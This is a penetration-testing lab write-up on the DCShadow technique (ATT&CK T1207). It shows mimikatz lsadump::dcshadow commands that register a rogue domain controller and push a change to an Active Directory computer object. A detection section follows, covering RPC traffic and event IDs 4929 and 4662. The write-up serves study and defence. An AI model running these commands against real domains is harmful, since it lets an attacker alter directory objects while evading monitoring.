




# T1207: DCShadow

DCShadow allows an attacker with enough privileges to create a rogue Domain Controller and push changes to the DC Active Directory objects.

## Execution

For this lab, two shells are required, one running with `SYSTEM` privileges and another one is a domain member that is in `Domain admins` group:



In this lab, I will be trying to update the AD object of a computer `pc-w10$`. A quick way to see some of its associated properties can be achieved with the following powershell. Note the `badpwcount` property which we will try to change with DCShadow:

```csharp
PS c:\> ([adsisearcher]"(&(objectCategory=Computer)(name=pc-w10))").Findall().Properties
```


Let's change the value to 9999:



```csharp
mimikatz # lsadump::dcshadow /object:pc-w10$ /attribute:badpwdcount /value=9999
```



and push the changes to the primary Domain Controller `DC-MANTVYDAS`:



```csharp
lsadump::dcshadow /push
```



Below are the screenshots of the above commands and their outputs as well as the result, indicating the `badpwcount`value getting changed to 9999:


## Observations

As suggested by Vincent Le Toux who co-presented the [DCShadow](https://www.youtube.com/watch?v=KILnU4FhQbc), in order to detect the rogue activity, you could monitor the network traffic and suspect any non-DC hosts \(our case it is the PC-W10$ with `10.0.0.7`\) issuing RCP requests to DCs \(our case DC-MANTVYDAS with `10.0.0.6`\) as seen below:


Same for the logs, if you see a non-DC host causing the DC to log a `4929` event \(Detailed Directory Service Replication\), you may want to investigate what else was happening on that non-DC system:



Current implementation of DCShadow in mimikatz creates the new DC and deletes its associated objects when the push is complete in a quick succession and this pattern could be used to trigger an alert, since creation of a new DC and its deletion in one seconds sounds anomalous. Events `4662` may be helpful for this:








{% embed data="{\"url\":\"https://www.youtube.com/watch?v=KILnU4FhQbc\",\"type\":\"video\",\"title\":\"BlueHat IL 2018 - Vincent Le Toux & Benjamin Delpy - What Can Make Your Million Dollar SIEM Go Blind\",\"description\":\"Active Directory: What Can Make Your Million Dollar SIEM Go Blind?\\n\\nActive Directory is a key element for security and is a primary target in most of the common attacks today. There are also many tools used to ensure its protection. In large companies where there have been millions of dollars of investment in security, it appears that the logical choice to provide security monitoring of Active Directory is by using the company SIEM tool. Even if the chances of detecting a golden ticket are low, the logs processed by the SIEM can help track any object changes and can raise an alert in case of a suspicious modification to a privileged account.\\nWith Benjamin Delpy the mimikatz author in a guest appearance, this talk focuses on two topics: \\nHow an attacker can have more insight into your domains than you and how the attacker can also exploit distant domains, while being undetected by your SIEM\\nHow the new mimikatz attack \\\"DCShadow\\\", by transforming a compromised workstation into a DC, can push changes that are unseen by your SIEM.\\n\\nWhile post incident response handlers can use replication metadata to build the attack history, the DCShadow attack will demonstrate that this replication metadata can no longer be trusted and how the technical specification of the AD \(MS-ADTS\) can be bypassed in most cases. An example is, instead of gathering the krbtgt hash via DCSync, you can push your own secret. \\n\\nSpeaker Bio:\\nVincent LE TOUX, 37 years old, French Security Manager in a large company SOC / CSIRT / SECOPS manager / AD expert CEO of My Smart Logon - smart card logon \(www.mysmartlogon.com\) Author of Ping Castle - an AD security tool \(www.pingcastle.com\) Contributions in Mimikatz Many open source contributions \(OpenPGP, OpenSC, GIDS applet, ...\) Presenter in many conferences including FIRST \(Puerto Rico, 2017\) & in France.\\n\\nGuest Speaker:\\nBenjamin Delpy, is a Security Researcher known as \`gentilkiwi\`. A Security enthusiast, he publishes tools and articles that speak about products’ weaknesses and prove some of his ideas. Mimikatz was the first software he developed that reached an international audience. It is now recognized as a Windows security audit tool. He previously spoke at PHDays, ASFWS, StHack, BlackHat, BlueHat US and many more.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.youtube.com/yts/img/favicon\_144-vfliLAfaB.png\",\"width\":144,\"height\":144,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://i.ytimg.com/vi/KILnU4FhQbc/maxresdefault.jpg\",\"width\":1280,\"height\":720,\"aspectRatio\":0.5625},\"embed\":{\"type\":\"player\",\"url\":\"https://www.youtube.com/embed/KILnU4FhQbc?rel=0&showinfo=0\",\"html\":\"<div style=\\\"left: 0; width: 100%; height: 0; position: relative; padding-bottom: 56.2493%;\\\"><iframe src=\\\"https://www.youtube.com/embed/KILnU4FhQbc?rel=0&amp;showinfo=0\\\" style=\\\"border: 0; top: 0; left: 0; width: 100%; height: 100%; position: absolute;\\\" allowfullscreen scrolling=\\\"no\\\"></iframe></div>\",\"aspectRatio\":1.7778}}" %}

{% embed data="{\"url\":\"http://www.labofapenetrationtester.com/2018/04/dcshadow.html\",\"type\":\"link\",\"title\":\"DCShadow - Minimal permissions, Active Directory Deception, Shadowception and more\",\"description\":\"Home of Nikhil SamratAshok Mittal. Posts about Red Teaming, Offensive PowerShell, Active Directory and Pen Testing.\",\"icon\":{\"type\":\"icon\",\"url\":\"http://www.labofapenetrationtester.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://1.bp.blogspot.com/-RHibpt8TT28/WsHCN-6Nb8I/AAAAAAAAEjA/fif\_yx9\_rNU2bkHa7e\_T5EzG3IaRMa5LgCLcBGAs/w1200-h630-p-k-no-nu/mimikatz\_SYSTEM.png\",\"width\":1141,\"height\":599,\"aspectRatio\":0.5249780893952674}}" %}

